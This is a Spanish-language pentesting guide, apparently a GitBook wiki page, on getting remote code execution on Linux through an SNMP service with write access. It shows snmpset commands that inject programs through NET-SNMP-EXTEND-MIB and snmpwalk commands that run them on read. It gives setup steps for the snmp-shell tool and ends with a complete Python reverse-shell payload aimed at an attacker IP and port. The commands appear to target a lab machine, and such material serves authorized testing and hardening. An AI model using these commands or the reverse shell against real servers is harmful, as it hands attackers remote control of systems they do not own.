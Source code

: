 ```yaml
---
description: Obtener ejecución de código remoto mediante SNMP.
---
```


# SNMP (RCE Linux)

## INTRODUCCIÓN

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce" %}
Fuente
{% endembed %}

{% embed url="https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell" %}
Fuente
{% endembed %}

El servicio SNMP es muchas veces olvidado por el administrador del equipo o servidor, dejandolo con la configuración por defecto.

Un servicio SNMP con **permisos de escritura (rwcommunity) en un sistema Linux** puede ser explotado para ganar acceso y ejecutar comandos en el servidor.

![](../../.gitbook/assets/snmp2.png)

## EXTENDER SERVICIOS

Aunque no tienes permisos para modificar las entradas existentes en el **`snmpd.conf`**, si que es posible añadir comandos adicionales de SNMP por qué el permiso "**MAX-ACCESS**" en el MIB es "**read-create**".

Añadir un nuevo comando básicamente funciona añadiendo una fila extra a la tabla "**nsExtendObjects**":

```
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```

Al injectar un comando que ejecutar en el servicio SNMP, NET-SNMP-EXTEND-MIB necesita que utilices la ruta completa al ejecutable. El binario o script llamado tambien debe existir y ser ejecutable.

![Funciona](../../.gitbook/assets/snmp3.png)

Podemos ejecutar el comando que hemos injectado enumerándolo con snmpwalk.

```
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

Vemos que el comando es /bin/echo:

![](../../.gitbook/assets/snmp4.png)

El comando se ejecuta cuando es leído. **run-on-read()**

![](../../.gitbook/assets/snmp5.png)

El comando fué ejecutado finalmente durante snmpwalk:

![](../../.gitbook/assets/snmp6.png)

## OBTENER UNA SHELL CON NET-SNMP EXTEND

La forma más rápida y automatizada de hacerlo es con la siguiente herramienta en Python:

{% embed url="https://github.com/mxrch/snmp-shell" %}
Fuente
{% endembed %}

```
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

### Manualmente

Tambien se puede crear una shell reversa manualmente inyectando el siguiente comando en SNMP:

```
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```

![](../../.gitbook/assets/snmp7.png)

Ejecutamos snmpwalk para activar la ejecución del comando:

![](../../.gitbook/assets/snmp8.png)

Por último, nuestro netcat recibe la reverse shell y obtenemos control sobre el objetivo
